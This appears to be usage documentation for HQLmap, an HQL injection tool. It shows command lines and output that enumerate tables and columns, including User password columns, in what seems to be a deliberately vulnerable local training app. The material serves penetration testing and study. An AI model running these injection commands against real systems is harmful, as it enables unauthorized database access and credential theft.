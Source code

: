 
By performing such enumeration, the scanner is using default file for the name of the tables AND for the name of the columns.
Default files are : 

For tables : db/tables.db
For columns : db/columns.db


### Checking existence of a specific table

```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --T=foo
```

And the output :

```
[-] Table foo does not exist.
```

### Enumerating columns of a specific table


```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --T=User --columns
```

And the output :

```
[!] Table User has been found.
[!] Column Id has been found in table User
[!] Column Username has been found in table User
[!] Column Password has been found in table User
[-] Column status in User does not exist.
[-] Column user_id in User does not exist.
[!] Column Email has been found in table User
[!] Column Firstname has been found in table User
[!] Column Lastname has been found in table User

```

### Checking the existence of a specific column for a specific table

```
python HQLmap.py --url="http://localhost:9110/ropeytasks/task/search?q=test&search=Search" --param=q --cookie="JSESSIONID=D50C4AD5BA0F05FA426CF660D9E069B7" --T=User --C=bar
```

And the output :

```
[!] Table User has been found.
[-] Column bar in User does not exist.
```

